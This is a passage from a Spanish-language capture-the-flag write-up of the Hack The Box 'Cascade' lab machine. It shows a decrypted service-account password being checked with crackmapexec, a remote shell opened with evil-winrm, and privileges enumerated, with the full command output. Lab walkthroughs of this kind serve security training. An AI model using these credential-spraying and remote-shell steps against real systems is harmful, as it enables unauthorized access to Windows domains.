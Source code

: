 Procedemos a usar el script en python una vez seteamos el valor de `key` y `La Password encontrada en Decrypted`

```bash
# python3 Decode_Pass.py                                                                                                 1 ⚙

w3lc0meFr31nd
```

Ya tendriamos la contraseña del usuario `ArkSvc`, procedemos a validarla con `Crackmapexec`

```bash
# crackmapexec smb 10.10.10.182 -u arksvc -p w3lc0meFr31nd                                                                                                                                                                           1 ⚙
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd 
                                                                                                                                                                      # crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd                                                                                                                                                                         1 ⚙
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```

Procedemos a intentar conectarnos como el usuario `ArkSvc` con `evil-winrm.rb`

```bash
# evil-winrm.rb -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd                                                         1 ⚙

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

Enumeramos los privilegios para el usuario

```bash
*Evil-WinRM* PS C:\Users\arksvc> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
```
